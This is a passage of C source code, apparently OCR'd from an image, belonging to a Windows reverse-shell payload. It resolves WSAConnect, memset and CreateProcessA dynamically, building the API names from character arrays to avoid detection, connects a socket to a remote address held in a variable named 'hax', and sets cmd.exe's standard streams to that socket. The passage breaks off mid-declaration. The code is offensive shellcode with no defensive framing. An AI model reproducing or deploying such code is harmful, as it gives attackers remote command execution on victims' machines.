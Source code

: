         SOCKET         s,
        const SOCKADDR *name,
        int            namelen,
        LPWSABUF       lpCallerData,
        LPWSABUF       lpCalleeData,
        LPQOS          lpSQOS,
        LPQOS          lpGQOS
    )) _GetProcAddress( (HMODULE)ws2_32dll_base, wsaconnect_string );

    if( NULL == _WSAConnect )
    {
        // printf( "[+] Could not dynamically resolve WSAConnect!\n" );
        return 1;
    }

    _WSAConnect(wSock, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

    //
    // Dynamically Resolve memset()
    //
    char msvcrtdll[] = { 'm', 's', 'v', 'c', 'r', 't', '.', 'd', 'l', 'l', '\0' };
    LPVOID msvcrtdll_base = _LoadLibraryA( msvcrtdll );

    if( NULL == msvcrtdll_base )
    {
        // printf( "[!] Could not find msvcrt.dll!\n" );
        return 1;
    }

    void * (WINAPI * _memset)
    (
        void *dest,
        int c,
        size_t count
    );

    char memset_str[] = { 'm', 'e', 'm', 's', 'e', 't', '\0' }; 
    _memset = ( void *(WINAPI*)
    (
        void *dest,
        int c,
        size_t count
    )) _GetProcAddress( (HMODULE)msvcrtdll_base, memset_str );

    if( NULL == _memset)
    {
        // printf( "[!] Could not resolve memset()\n" );
        return 1;
    }

    _memset(&sui, 0, sizeof(sui));
    sui.cb = sizeof(sui);
    sui.dwFlags = STARTF_USESTDHANDLES;
    sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE) wSock;

    
    //
    // 4. START cmd.exe WITH REDIRECTED STREAMS TO SOCKET
    // Dynamically resolve CreateProcessA() WinAPI
    // 
    char createprocessa[] = { 'C', 'r', 'e', 'a', 't', 'e', 'P', 'r', 'o', 'c', 'e', 's', 's', 'A', '\0' }; 
    BOOL ( WINAPI * _CreateProcessA )
    (
        LPCSTR                lpApplicationName,
        LPSTR                 lpCommandLine,
        LPSECURITY_ATTRIBUTES lpProcessAttributes,
        LPSECURITY_ATTRIBUTES lpThreadAttributes,